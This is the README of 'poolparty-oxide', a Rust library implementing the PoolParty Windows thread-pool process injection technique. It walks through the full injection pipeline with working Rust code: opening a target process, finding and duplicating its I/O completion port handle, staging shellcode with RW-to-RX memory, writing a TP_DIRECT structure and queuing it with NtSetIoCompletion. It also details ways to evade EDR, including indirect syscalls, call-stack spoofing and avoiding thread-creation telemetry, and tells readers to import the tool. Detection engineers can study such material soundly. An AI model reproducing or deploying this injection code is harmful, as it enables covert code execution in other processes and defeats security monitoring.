

[English](README.md) | [Español](README_ES.md)

# poolparty-oxide: Windows Thread Pool Process Injection in Pure Rust

`poolparty-oxide` is a pure Rust implementation of the **PoolParty** process injection technique targeting the native Windows Thread Pool architecture, built without relying on external Windows SDK crates (`windows`, `windows-sys`, `winapi`). Discovered and documented by SafeBreach Labs (Alon Leviev, 2023), the PoolParty technique family provides an alternative to traditional injection: rather than creating suspicious new threads or hijacking active thread contexts, it leverages the legitimate, pre-existing worker threads that Windows processes already run inside their thread pools.

Specifically, this project implements the **I/O Completion Port (IOCP) task queuing variant using `NtSetIoCompletion` via Worker Factories**. The injector queries kernel objects, duplicates the target process's IOCP handle, writes the payload and the undocumented `TP_DIRECT` structure into remote memory, and queues a completion packet with `KeyContext` pointing directly to that task descriptor. When dequeued, the remote worker loop (`ntdll!TppWorkerThread`) dispatches and runs our callback.

The entire low-level flow runs without Win32 API wrappers. It relies on primitives from [`zada-xor`](https://github.com/lcalzada-xor/zada-xor), using dynamic SSN extraction via Hell's Gate and Halo's Gate, indirect syscalls, synthetic Call Stack Spoofing with two return gadgets, and stealth memory allocation using a `PAGE_READWRITE` → `PAGE_EXECUTE_READ` cycle (avoiding RWX memory).

> [!NOTE]
> **Author's Note (`lcalzada-xor`):**  
> *This is my implementation of the PoolParty technique in pure Rust. All native NT primitives, indirect syscalls, and evasion mechanics come from [`zada-xor`](https://github.com/lcalzada-xor/zada-xor), a library I'm actively developing on GitHub.*  
> *During development, reverse-engineering undocumented structures like `TP_DIRECT` and figuring out the exact parameters for `NtSetIoCompletion` gave me plenty of headaches—especially getting the worker thread to dequeue the packet and run the code without instantly crashing the target process. I've documented all the lessons learned, offsets, and OPSEC details here so anyone interested can see how the Windows Thread Pool works under the hood.*

<p align="center">
  
</p>

---

## Disclaimer & Educational Purpose

> [!IMPORTANT]
> **This project is strictly for educational purposes, academic research, and defensive security.**
>
> * **Authorized Scope:** The code and concepts documented here are intended solely for testing in controlled lab environments and on systems where you have explicit written authorization.
> * **Defensive Focus:** The goal is to help security researchers, detection engineers, and EDR developers understand how these low-level mechanisms work in order to build better detection rules and kernel telemetry (ETW-Ti).
> * **Prohibition of Unauthorized Use:** The author does not endorse or take responsibility for any misuse or damage caused with this material. Running these techniques against systems without authorization is illegal and the sole responsibility of the user.

---

## Table of Contents

- [Disclaimer & Educational Purpose](#disclaimer--educational-purpose)
- [Table of Contents](#table-of-contents)
- [How to Use It? (Quick Start Guide)](#how-to-use-it-quick-start-guide)
  - [1. Cargo.toml Setup](#1-cargotoml-setup)
  - [2. Code Integration](#2-code-integration)
  - [3. Suppressing Debug Output](#3-suppressing-debug-output)
- [Architecture & PoolParty Injection Vector Overview](#architecture--poolparty-injection-vector-overview)
  - [Why Thread Pool Injection (vs. Traditional Remote Threads)](#why-thread-pool-injection-vs-traditional-remote-threads)
  - [End-to-End Injection Sequence Diagram](#end-to-end-injection-sequence-diagram)
- [Project Structure & Manifest Configuration](#project-structure--manifest-configuration)
  - [Architectural Manifest Decisions](#architectural-manifest-decisions)
- [Deep Dive: Core Injection Pipeline & Zada-Xor Subsystems](#deep-dive-core-injection-pipeline--zada-xor-subsystems)
  - [1. Process Acquisition: NtOpenProcess & Access Rights](#1-process-acquisition-ntopenprocess--access-rights)
  - [2. Kernel Object Introspection: NtQueryObject & IoCompletion Type Discovery](#2-kernel-object-introspection-ntqueryobject--iocompletion-type-discovery)
  - [3. Handle Enumeration: NtQueryInformationProcess (Class 51)](#3-handle-enumeration-ntqueryinformationprocess-class-51)
  - [4. Handle Duplication: NtDuplicateObject](#4-handle-duplication-ntduplicateobject)
  - [5. Stealth Memory Staging: write_process_mem_rw_rx (RW -> RX Lifecycle)](#5-stealth-memory-staging-write_process_mem_rw_rx-rw---rx-lifecycle)
  - [6. The Undocumented TP_DIRECT Task Structure & Memory Layout](#6-the-undocumented-tp_direct-task-structure--memory-layout)
  - [7. Task Dispatch: NtSetIoCompletion & KeyContext Mechanics](#7-task-dispatch-ntsetiocompletion--keycontext-mechanics)
  - [8. Cleanup & Handle Lifecycle: NtClose](#8-cleanup--handle-lifecycle-ntclose)
- [The Integration Testbed (examples/example.rs)](#the-integration-testbed-examplesexamplers)
  - [Stage 1: Target Acquisition & The unique_hash Algorithm](#stage-1-target-acquisition--the-unique_hash-algorithm)
  - [Stage 2: System Process Discovery via NtQuerySystemInformation](#stage-2-system-process-discovery-via-ntquerysysteminformation)
  - [Stage 3: Process Opening and PoolParty Execution](#stage-3-process-opening-and-poolparty-execution)
- [Cross-Compilation & Execution Guide](#cross-compilation--execution-guide)
  - [1. Prerequisites & Toolchain Setup](#1-prerequisites--toolchain-setup)
  - [2. Compilation Commands](#2-compilation-commands)
  - [3. Execution & Testing](#3-execution--testing)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Related Projects](#related-projects)
- [Resources, External References & Useful Links](#resources-external-references--useful-links)

---

## How to Use It? (Quick Start Guide)

> [!TIP]
> **Recommendation:** This repository (`poolparty-oxide`) is designed primarily as a pedagogical showcase and reference implementation to explain and document the mechanics of Thread Pool injection via IOCP. If you intend to use this technique or underlying NT primitives in your projects or lab tooling, **it is recommended to directly import [`zada-xor`](https://github.com/lcalzada-xor/zada-xor)**, which is where I actively maintain, update, and centralize all evasion techniques and NT core engine modules in their latest versions.

### 1. Cargo.toml Setup

To integrate the recommended implementation directly from `zada-xor` (or use this repository as a standalone PoC reference):

```toml
[dependencies]
# Recommended: Import zada-xor directly (contains the most up-to-date PoolParty implementation and complete NT engine)
zada-xor = { git = "https://github.com/lcalzada-xor/zada-xor", branch = "main" }

# Alternative (this repository, maintained as a pedagogical PoC):
# poolparty-oxide = { git = "https://github.com/lcalzada-xor/poolparty-oxide" }
```

### 2. Code Integration

When importing `zada-xor`, the injection routine is available directly within its execution techniques module:

```rust
// Recommended: invoke directly from zada-xor:
use zada_xor::techniques::evasion::execution::execute_poolparty_shellcode::execute_poolparty_shellcode;

// (Or if using this repository's standalone wrapper):
// use poolparty_oxide::execute_poolparty_shellcode;

fn main() {
    // 1. Target process PID (must host an active Thread Pool, e.g., explorer.exe)
    let target_pid: u32 = 1234;

    // 2. Shellcode / payload to execute
    let shellcode: &[u8] = &[
        // ... payload bytes ...
    ];

    // 3. Dispatch PoolParty injection via IOCP
    match execute_poolparty_shellcode(target_pid, shellcode) {
        Ok(_) => println!("[+] PoolParty thread pool injection succeeded."),
        Err(e) => eprintln!("[!] PoolParty injection failed: {}", e),
    }
}
```

### 3. Suppressing Debug Output

By default in debug builds, informative console traces are printed (`[+] Handle obtenido...`, `[+] Index de IoCompletion...`). For clean production builds, compile using `--release`:

```bash
cargo build --release --target x86_64-pc-windows-gnu
```

> [!NOTE]
> **Author's Note (`lcalzada-xor`):**  
> *I created this repository as a focused showcase to explain in detail how Thread Pool injection works via `NtSetIoCompletion` and `TP_DIRECT` without bundling all the other modules of my framework. However, if you want to use it in your own projects or research, add [`zada-xor`](https://github.com/lcalzada-xor/zada-xor) directly to your `Cargo.toml`. That is where I actively develop, fix bugs, and keep all indirect syscalls, call stack spoofing, and evasion implementations up to date.*

---

## Architecture & PoolParty Injection Vector Overview

### Why Thread Pool Injection (vs. Traditional Remote Threads)

For decades, user-mode process injection techniques relied on a narrow set of well-instrumented Windows subsystems. Modern Endpoint Detection and Response (EDR) agents and operating system telemetry layers (specifically Kernel Event Tracing for Threat Intelligence, or **ETW-Ti**) heavily monitor these traditional execution pathways:

1. **Remote Thread Creation Primitives (`CreateRemoteThread`, `NtCreateThreadEx`, `RtlCreateUserThread`):**
   - **Kernel Telemetry:** Triggers the kernel callback `PsSetCreateThreadNotifyRoutine` and emits the ETW-Ti event `Microsoft-Windows-Threat-Intelligence: THREAD_CREATE`.
   - **Stack Anomaly:** The newly created thread starts with an entry point pointing directly to an unbacked or dynamically allocated memory page (`MEM_PRIVATE` with `PAGE_EXECUTE_READ`), presenting an immediate heuristic indicator.
2. **Asynchronous Procedure Calls (`QueueUserAPC`, `NtQueueApcThread`, `NtQueueApcThreadEx`):**
   - **Execution Dependency:** Requires an existing target thread to enter an alertable wait state (e.g., via `SleepEx`, `WaitForSingleObjectEx`, or `MsgWaitForMultipleObjectsEx`), introducing non-deterministic execution delays.
   - **Telemetry:** User-mode API hooks on `NtQueueApcThread` flag cross-process APC insertion immediately.
3. **Thread Context Hijacking (`NtSuspendThread`, `NtSetContextThread`, `NtResumeThread`):**
   - **Thread Disruption:** Suspends a running thread and forcibly overwrites its instruction pointer (`RIP`/`EIP`), creating severe instability and triggering ETW-Ti `THREAD_SET_CONTEXT` telemetry.

```math
\begin{aligned}
\textbf{Traditional:}\quad &\text{Injector Process} \xrightarrow{\text{NtCreateThreadEx}} \text{New Remote Thread} \xrightarrow{\text{Kernel Callback}} \mathbf{\text{PsSetCreateThreadNotify}} \implies [\mathbf{ALARM:}\text{ Unbacked Thread Start}] \\[6pt]
\textbf{PoolParty:}\quad &\text{Injector (Duplicated IOCP)} \xrightarrow{\text{NtSetIoCompletion}} \text{Task Queue (IOCP)} \xrightarrow{\text{Native Loop}} \mathbf{\text{ntdll!TppWorkerThread}} \implies [\mathbf{CLEAN:}\text{ Legitimate Worker Start}]
\end{aligned}
```

In stark contrast, **PoolParty** targets the legitimate Windows Thread Pool infrastructure present in virtually every user-mode process:

- **No Thread Creation:** The injection operates without invoking thread creation primitives (`THREAD_CREATE = 0`). The worker threads are already running inside the target process.
- **Natural Call Stack Anchoring:** When execution transfers to the payload callback, the call stack originates from legitimate operating system functions:
```math
\text{ntdll!RtlUserThreadStart} \longrightarrow \text{kernel32!BaseThreadInitThunk} \longrightarrow \text{ntdll!TppWorkerThread} \longrightarrow \text{ntdll!TppDirectExecuteCallback}
```
- **Kernel Telemetry Evasion:** Because no new threads are registered, kernel notification routines (`PsSetCreateThreadNotifyRoutine`) remain completely silent. The execution packet is serviced naturally by the Windows I/O completion dispatcher.

---

### End-to-End Injection Sequence Diagram

The complete life cycle of the `poolparty-oxide` injection sequence spans nine deterministic stages, coordinated across the injector process, the NT Executive Object Manager, the target process's memory space, and an active Thread Pool worker thread:



```math
\begin{aligned}
\text{Stage 1: } &\text{Target Acquisition} &&\mathcal{P}_{\text{target}} \gets \text{NtOpenProcess}(\text{PID}, \mathbf{0x0478}) \\
\text{Stage 2: } &\text{Type Discovery} &&\mathcal{T}_{\text{IOCP}} \gets \text{NtQueryObject}(\text{ObjectTypesInformation}) \\
\text{Stage 3: } &\text{Handle Discovery} &&\mathcal{H}_{\text{remote}} \gets \text{NtQueryInformationProcess}(\mathcal{P}_{\text{target}}, \text{Class 51}) \\
\text{Stage 4: } &\text{Handle Duplication} &&\mathcal{H}_{\text{local}} \gets \text{NtDuplicateObject}(\mathcal{P}_{\text{target}}, \mathcal{H}_{\text{remote}}, \text{CurrentProcess}) \\
\text{Stage 5: } &\text{Payload Staging} &&\alpha_{\text{code}} \gets \text{write\_process\_mem\_rw\_rx}(\mathcal{P}_{\text{target}}, \text{payload}) \\
\text{Stage 6: } &\text{TP\_DIRECT Staging} &&\alpha_{\text{task}} \gets \text{write\_process\_mem\_rw\_rx}(\mathcal{P}_{\text{target}}, \text{TP\_DIRECT}\{\text{callback}: \alpha_{\text{code}}\}) \\
\text{Stage 7: } &\text{Packet Queuing} &&\text{NtSetIoCompletion}(\mathcal{H}_{\text{local}}, \text{KeyContext} = \alpha_{\text{task}}) \\
\text{Stage 8: } &\text{Resource Teardown} &&\text{NtClose}(\mathcal{H}_{\text{local}}) \land \text{NtClose}(\mathcal{P}_{\text{target}}) \\
\text{Stage 9: } &\text{Worker Execution} &&\text{ntdll!TppWorkerThread} \xrightarrow{\text{dequeue}} \text{TppDirectExecuteCallback}(\alpha_{\text{task}}) \to \text{Payload}
\end{aligned}
```

---

## Project Structure & Manifest Configuration

The crate manifest (`Cargo.toml`) defines a standalone Rust library configured with custom target metadata and a direct git dependency on the `zada-xor` engine:

```toml
[package]
name = "poolparty-oxide"
version = "1.0.0"
edition = "2021"
description = "A Rust implementation of the PoolParty process injection / thread pool technique."
license = "MIT OR Apache-2.0"

[lib]
name = "poolparty_oxide"
path = "src/execute_poolparty_shellcode.rs"

[dependencies]
zada-xor = { git = "https://github.com/lcalzada-xor/zada-xor", branch = "main" }
```

### Architectural Manifest Decisions
- **Custom Library Path:** The library defines `path = "src/execute_poolparty_shellcode.rs"` and `name = "poolparty_oxide"` directly in `[lib]`. This intentionally routes downstream crate imports to the core execution pipeline without requiring a redundant `src/lib.rs` proxy file.
- **Git Submodule/Crate Pinning:** Dependency on `zada-xor` is pulled directly from the `main` branch. All low-level NT system calls, dynamic unhooking, SSN resolution, and assembly routines are isolated within `zada-xor`, maintaining strict separation of concerns.
- **Edition 2021:** Employs modern Rust 2021 idioms, including strict pointer provenance checking, structured error propagation via `Result<T, String>`, and conditional compilation toggles.

```
poolparty-oxide/
├── Cargo.toml                              # Crate manifest & dependency specification
├── Cargo.lock                              # Pinned dependency tree lockfile
├── src/
│   └── execute_poolparty_shellcode.rs     # Primary library entrypoint & 9-stage pipeline
└── examples/
    └── example.rs                          # Comprehensive 14-stage integration testbed
```

---

## Deep Dive: Core Injection Pipeline & Zada-Xor Subsystems

The core injection pipeline implemented in `src/execute_poolparty_shellcode.rs` coordinates eight dedicated NT subsystems imported from `zada-xor`. Each subsystem addresses a specific constraint imposed by the Windows kernel security model and user-mode runtime.

```rust
use zada_xor::nt::kernel_objects::close::*;
use zada_xor::nt::kernel_objects::duplicate_object::*;
use zada_xor::nt::kernel_objects::query_object::*;
use zada_xor::nt::kernel_objects::set_io_completion::*;
use zada_xor::nt::process::open_process::*;
use zada_xor::nt::process::query_information_process::*;
use zada_xor::nt::types::*;
use zada_xor::techniques::evasion::memory::write_process_mem_rw_rx::*;
```

---

### 1. Process Acquisition: NtOpenProcess & Access Rights

Process acquisition is initiated via `open_process(remote_process_pid, desired_access)`. Internally, this delegates to an indirect syscall invocation of `NtOpenProcess` (API hash `0xaddc1c2e`).

```rust
let remote_process_handle = match open_process(
    remote_process_pid,
    DESIRED_ACCESS::PROCESS_VM_READ
        | DESIRED_ACCESS::PROCESS_VM_WRITE
        | DESIRED_ACCESS::PROCESS_QUERY_INFORMATION
        | DESIRED_ACCESS::PROCESS_VM_OPERATION
        | DESIRED_ACCESS::PROCESS_DUP_HANDLE,
) {
    Ok(handl) => handl,
    Err(e) => return Err(format!("[!] Error open_process: {}", e)),
};
```

#### Access Mask Composition & Mathematical Proof
Rather than requesting coarse privileges such as `PROCESS_ALL_ACCESS` (`0x1FFFFF`), which generates immediate alerts in security monitoring tools (e.g., Sysmon Event ID 10: *Process Access*), `poolparty-oxide` computes a strictly bounded composite mask:

```math
\begin{aligned}
\text{Mask} &= \text{PROCESS\_VM\_READ} \,(0x0010) \\
&\quad \mid \text{PROCESS\_VM\_WRITE} \,(0x0020) \\
&\quad \mid \text{PROCESS\_QUERY\_INFORMATION} \,(0x0400) \\
&\quad \mid \text{PROCESS\_VM\_OPERATION} \,(0x0008) \\
&\quad \mid \text{PROCESS\_DUP\_HANDLE} \,(0x0040) \\
&= 0x0010 \mid 0x0020 \mid 0x0400 \mid 0x0008 \mid 0x0040 = \mathbf{0x0478}
\end{aligned}
```

| Access Flag | Numerical Value | Functional Requirement in Pipeline |
|:---|:---:|:---|
| `PROCESS_VM_READ` | `0x0010` | Verification reading and memory boundary inspection. |
| `PROCESS_VM_WRITE` | `0x0020` | Writing payload bytes and `TP_DIRECT` structures via `NtWriteVirtualMemory`. |
| `PROCESS_QUERY_INFORMATION` | `0x0400` | Querying remote handle table information via `NtQueryInformationProcess`. |
| `PROCESS_VM_OPERATION` | `0x0008` | Virtual memory allocation (`NtAllocateVirtualMemory`) and protection changes (`NtProtectVirtualMemory`). |
| `PROCESS_DUP_HANDLE` | `0x0040` | Duplicating the remote IOCP handle into the local process table via `NtDuplicateObject`. |

#### Data Structures: `CLIENT_ID` and `OBJECT_ATTRIBUTES`
The kernel call expects two mandatory pointers:

```rust
#[repr(C)]
pub struct CLIENT_ID {
    pub unique_process: HANDLE, // Target PID cast as HANDLE
    pub unique_thread: HANDLE,  // NULL (0) for process-level handle
}

#[repr(C)]
pub struct OBJECT_ATTRIBUTES {
    pub length: u32,
    pub root_directory: HANDLE,
    pub object_name: *mut c_void,
    pub attributes: u32,
    pub security_descriptor: *mut c_void,
    pub security_quality_of_service: *mut c_void,
}
```

> [!NOTE]
> **Author's Note (`lcalzada-xor`):**  
> *In `open_process.rs`, you'll see my comment: `//necesitamos esta estructura, ya que si no esta crashearia al llamar aNtOpenProcess`. Unlike standard Win32 `OpenProcess` which sets up parameters automatically behind the scenes, raw `NtOpenProcess` directly dereferences the `OBJECT_ATTRIBUTES` pointer in kernel space. If you pass a null pointer or fail to initialize `length = size_of::<OBJECT_ATTRIBUTES>() as u32` (48 bytes on x64), the kernel triggers an immediate access violation or returns `STATUS_DATATYPE_MISALIGNMENT`. Implementing `OBJECT_ATTRIBUTES::default()` was mandatory to stop the kernel from crashing.*

---

### 2. Kernel Object Introspection: NtQueryObject & IoCompletion Type Discovery

In the Windows NT Object Manager, all kernel object instances (Files, Sections, Mutants, Events, IoCompletion ports) belong to an `OBJECT_TYPE`. Each type has an integer `TypeIndex`. However, **`TypeIndex` numbers are not static constants**: they vary across Windows versions, service packs, build numbers, and boot configurations.

To locate an I/O Completion Port in a remote handle table without hardcoding unstable magic numbers, `poolparty-oxide` dynamically inspects the global Object Manager using `query_kernel_object_index("IoCompletion")`, which wraps `NtQueryObject` (hash `0xfc2a599c`).

```rust
let iocp_idx: usize;
match query_kernel_object_index("IoCompletion") {
    Ok(idx) => {
        #[cfg(debug_assertions)]
        println!("[+] Index de IoCompletion: {}", idx);
        iocp_idx = idx as usize;
    }
    Err(e) => return Err(format!("[!] query_kernel_object_index falló. Motivo: {}", e)),
}
```

#### Memory Probing & Reallocation Loop
Querying `ObjectTypesInformation` (class 3) requires a dynamic two-phase buffer expansion pattern to handle concurrent system activity:

1. **Initial Size Probe (`query_object_find_struct_size`):**  
   Issues an initial call passing a null pointer and length 0. The kernel rejects the buffer and returns `STATUS_INFO_LENGTH_MISMATCH` (`0xC0000004`) or `STATUS_BUFFER_TOO_SMALL` (`0xC0000023`), populating `return_length`.
2. **Headroom Reallocation Loop (`query_object_size_solved`):**  
   Because other processes actively register or destroy kernel objects, the required buffer size can change between the probe and the query. A retry loop executes up to 20 attempts (`MAX_ATTEMPTS = 20`):
   - If `return_length > current_size`, buffer expands to `return_length + 1024` bytes.
   - If `return_length <= current_size`, buffer size is multiplied by 2 (`current_size * 2`).

```rust
#[repr(C)]
pub struct OBJECT_TYPES_INFORMATION {
    pub NumberOfTypes: ULONG,
    pub TypeInformation: [OBJECT_TYPE_INFORMATION; 1],
}

#[repr(C)]
pub struct OBJECT_TYPE_INFORMATION {
    pub TypeName: UNICODE_STRING,
    pub TotalNumberOfObjects: ULONG,
    pub TotalNumberOfHandles: ULONG,
    // ... pool usage metrics ...
    pub TypeIndex: UCHAR, // Supported natively in Windows 8.1+
    // ... charges & security ...
}
```

#### Pointer Traversal with Alignment (`align_up`)
The entries in `OBJECT_TYPES_INFORMATION` are variable-length because `TypeName.Buffer` is stored immediately following the structure. Advancing to the next entry requires aligning to the pointer boundary:

```rust
#[inline]
fn align_up(addr: usize, align: usize) -> usize {
    (addr + align - 1) & !(align - 1)
}

let next_addr = (current_entry_ptr as usize)
    + size_of::<OBJECT_TYPE_INFORMATION>()
    + entry.TypeName.MaximumLength as usize;

current_entry_ptr = align_up(next_addr, size_of::<usize>()) as *const OBJECT_TYPE_INFORMATION;
```

When `entry.TypeName` decodes to `"IoCompletion"` (case-insensitive UTF-16 comparison), the function extracts `entry.TypeIndex` (or falls back to the enumeration index *i* on older Windows versions), returning `iocp_idx`.

---

### 3. Handle Enumeration: NtQueryInformationProcess (Class 51)

Having acquired the target process handle and resolved `iocp_idx`, the engine snapshots the remote handle table using `return_first_handle_maching_kernel_object_idx`:

```rust
let handle_entry = match return_first_handle_maching_kernel_object_idx(remote_process_handle, iocp_idx) {
    Ok(entry) => entry,
    Err(e) => return Err(format!("[!] Fallo en return_first_handle_maching_kernel_object_idx: {}", e)),
};
```

#### System Call Mechanics
Invokes `NtQueryInformationProcess` (hash `0x6fa0c1f4`) specifying `ProcessInformationClass::ProcessHandleInformation = 51`:

```rust
#[repr(C)]
pub struct PROCESS_HANDLE_TABLE_ENTRY_INFO {
    pub HandleValue: HANDLE,
    pub HandleCount: usize,
    pub PointerCount: usize,
    pub GrantedAccess: u32,
    pub ObjectTypeIndex: u32,
    pub HandleAttributes: u32,
    pub Reserved: u32,
}

#[repr(C)]
pub struct PROCESS_HANDLE_SNAPSHOT_INFORMATION {
    pub NumberOfHandles: usize,
    pub Reserved: usize,
    pub Handles: [PROCESS_HANDLE_TABLE_ENTRY_INFO; 1],
}
```

#### Slack Margin for Handle Churn
Because active processes open and close handles continuously, handle snapshotting is susceptible to race conditions. If the kernel returns `STATUS_INFO_LENGTH_MISMATCH` (`0xC0000004`), `query_information_process` recalculates the required size and adds a safety margin of 16 handle entries:

```math
\text{BufferSize} = \text{RequiredLength} + (\text{sizeof}(\text{PROCESS\_HANDLE\_TABLE\_ENTRY\_INFO}) \times 16)
```

This slack margin prevents iterative failure loops caused by target processes opening new descriptors mid-query. The engine iterates over `handle_info.Handles[0..NumberOfHandles]` and returns the first entry where `entry.ObjectTypeIndex == iocp_idx as u32`.

---

### 4. Handle Duplication: NtDuplicateObject

The handle discovered in the target process (`handle_entry.HandleValue`) is a private integer token indexing the remote process's handle table. Attempting to use this handle directly within the injector process will return `STATUS_INVALID_HANDLE` (`0xC0000008`).

To interact with the completion port, the injector clones the handle into its own handle table using `NtDuplicateObject` (hash `0x8f9a8420`):

```rust
let current_process_handle: HANDLE = -1isize as HANDLE; // Pseudo-handle for NtCurrentProcess()
let mut duplicated_handle: HANDLE = std::ptr::null_mut();

match nt_duplicate_object(
    remote_process_handle,
    handle_entry.HandleValue,
    current_process_handle,
    &mut duplicated_handle as PHANDLE,
    0,
    0,
    DUPLICATE_SAME_ACCESS,
) {
    Ok(_) => { /* Handle successfully cloned into duplicated_handle */ }
    Err(e) => return Err(format!("Fallo en nt_duplicate_object: {}", e)),
};
```

#### Calling Convention & Parameters
- `SourceProcessHandle`: `remote_process_handle` (the target process).
- `SourceHandle`: `handle_entry.HandleValue` (the remote IOCP handle).
- `TargetProcessHandle`: `-1isize as HANDLE` (`GetCurrentProcess()`).
- `TargetHandle`: `&mut duplicated_handle` (receives the locally valid handle).
- `DesiredAccess`: `0` (ignored due to `DUPLICATE_SAME_ACCESS`).
- `HandleAttributes`: `0`.
- `Options`: `DUPLICATE_SAME_ACCESS` (`0x00000002`).

The Windows Executive Object Manager creates a new handle table entry in the injector process pointing to the identical underlying `IoCompletion` kernel object, preserving full queue-posting access rights.

---

### 5. Stealth Memory Staging: write_process_mem_rw_rx (RW -> RX Lifecycle)

Directly allocating memory with `PAGE_EXECUTE_READWRITE` (RWX / `0x40`) creates an immediate heuristic indicator for memory scanners and kernel ETW-Ti telemetry events (`KERNEL_THREATINT_TASK_ALLOCVM_REMOTE`).

To avoid RWX signatures, `write_process_mem_rw_rx` implements a three-phase memory staging lifecycle:

```math
\begin{aligned}
\mathbf{Step\,1:}\quad &\text{NtAllocateVirtualMemory} &&\xrightarrow{\text{Allocates}} \mathbf{PAGE\_READWRITE} \,(0x04) \quad &&\text{[Non-executable memory]} \\
&\quad\Big\downarrow \\
\mathbf{Step\,2:}\quad &\text{NtWriteVirtualMemory} &&\xrightarrow{\text{Stages Payload}} \text{Buffer}[\&[u8]] \quad &&\text{[Verified: } bytes = len\text{]} \\
&\quad\Big\downarrow \\
\mathbf{Step\,3:}\quad &\text{NtProtectVirtualMemory} &&\xrightarrow{\text{Flips Protection}} \mathbf{PAGE\_EXECUTE\_READ} \,(0x20) \quad &&\text{[Execution without RWX]}
\end{aligned}
```

```rust
// Phase 1: Payload injection
let _allocated_code_addr = match write_process_mem_rw_rx(remote_process_handle, shellcode) {
    Ok(addr) => addr,
    Err(e) => return Err(format!("[!] write_process_mem_rw_rx falló. Motivo: {}", e)),
};

// Phase 2: TP_DIRECT task structure injection
let mut io_complete_task: TP_DIRECT = unsafe { std::mem::zeroed() };
io_complete_task.callback = _allocated_code_addr as PVOID;

let _allocated_tpdirect_addr =
    match write_process_mem_rw_rx(remote_process_handle, io_complete_task.as_bytes()) {
        Ok(addr) => addr,
        Err(e) => return Err(format!("[!] write_process_mem_rw_rx con io_complete_task falló. Motivo: {}", e)),
    };
```

#### Dual Allocation Layout in Remote Memory
The injector calls `write_process_mem_rw_rx` twice:
1. First, to stage the executable payload slice (`shellcode: &[u8]`), obtaining `_allocated_code_addr`.
2. Second, to stage the serialized `TP_DIRECT` task structure (`io_complete_task.as_bytes()`), obtaining `_allocated_tpdirect_addr`.

Both allocations transition from `PAGE_READWRITE` to `PAGE_EXECUTE_READ`, ensuring no RWX memory pages are created in the target process.

---

### 6. The Undocumented TP_DIRECT Task Structure & Memory Layout

In Microsoft's native user-mode Thread Pool architecture, direct task dispatching is handled through three nested structures: `TP_TASK_CALLBACKS`, `TP_TASK`, and `TP_DIRECT`.

#### Structural Definitions (64-bit Architecture)

```rust
#[repr(C)]
#[derive(Debug, Copy, Clone)]
pub struct TP_TASK_CALLBACKS {
    pub execute_callback: PVOID,
    pub unposted: PVOID,
}

#[repr(C)]
#[derive(Debug, Copy, Clone)]
pub struct TP_TASK {
    pub callbacks: *mut TP_TASK_CALLBACKS,
    pub numa_node: ULONG,
    pub ideal_processor: UINT8,
    pub _padding: [u8; 3],
    pub list_entry: LIST_ENTRY,
}

#[repr(C)]
pub struct TP_DIRECT {
    pub task: TP_TASK,
    pub lock: ULONGLONG,
    pub io_completion_information_list: LIST_ENTRY,
    pub callback: PVOID,
    pub numa_node: ULONG,
    pub ideal_processor: UCHAR,
    pub _padding: [u8; 3],
}
```

#### Comprehensive 72-Byte Memory Map & Structural Formulation (Offsets 0x00 to 0x47)

```math
\begin{aligned}
\text{sizeof}(\text{TP\_DIRECT}) &= \underbrace{\text{sizeof}(\text{TP\_TASK})}_{\mathbf{32\text{ bytes (0x20)}}} + \underbrace{\text{Lock + ListEntry}}_{\mathbf{24\text{ bytes (0x18)}}} + \underbrace{\mathbf{Callback}}_{\mathbf{8\text{ bytes (0x08)}}} + \underbrace{\text{Affinity \& Padding}}_{\mathbf{8\text{ bytes (0x08)}}} \\
&= 32 + 24 + 8 + 8 = \mathbf{72\text{ bytes (0x48)}} \implies \text{Offset}(\text{callback}) = \mathbf{+0x38}
\end{aligned}
```

| Offset | Size | Field Name | Type | Description |
|:---|:---:|:---|:---|:---|
| `0x00..0x07` | 8 B | `task.callbacks` | `*mut CALLBACKS` | Pointer to dispatch table (NULL) |
| `0x08..0x0B` | 4 B | `task.numa_node` | `ULONG` (`u32`) | NUMA node affinity (`0` = default) |
| `0x0C` | 1 B | `task.ideal_processor` | `UINT8` (`u8`) | Preferred CPU core (`0` = any) |
| `0x0D..0x0F` | 3 B | `task._padding` | `[u8; 3]` | Explicit struct padding |
| `0x10..0x17` | 8 B | `task.list_entry.Flink` | `*mut LIST_ENTRY` | Doubly-linked task list Flink |
| `0x18..0x1F` | 8 B | `task.list_entry.Blink` | `*mut LIST_ENTRY` | Doubly-linked task list Blink |
| **`0x00..0x1F`** | **32 B** | **`TP_TASK` Sub-struct** | `TP_TASK` | **Embedded Task Header (`0x20` bytes)** |
| `0x20..0x27` | 8 B | `lock` | `ULONGLONG` (`u64`) | Spinlock / state counter (`0`) |
| `0x28..0x2F` | 8 B | `io_completion_info_list.Flink` | `*mut LIST_ENTRY` | IOCP info list forward pointer |
